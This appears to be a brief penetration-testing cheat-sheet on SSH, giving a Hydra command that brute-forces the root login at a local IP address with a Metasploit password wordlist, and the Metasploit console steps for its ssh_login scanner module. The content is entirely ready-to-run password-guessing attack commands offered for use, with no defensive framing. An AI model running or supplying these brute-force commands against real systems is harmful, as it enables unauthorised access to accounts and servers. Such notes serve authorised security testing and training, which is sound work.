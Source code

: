 # SSH

## Bruteforce SSH with Hydra

```bash
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.1.2:22 -t 4 -V
```

## Bruteforce SSH with Metasploit

```bash
msfconsole
search ssh
use auxiliary/scanner/ssh_login
options
```

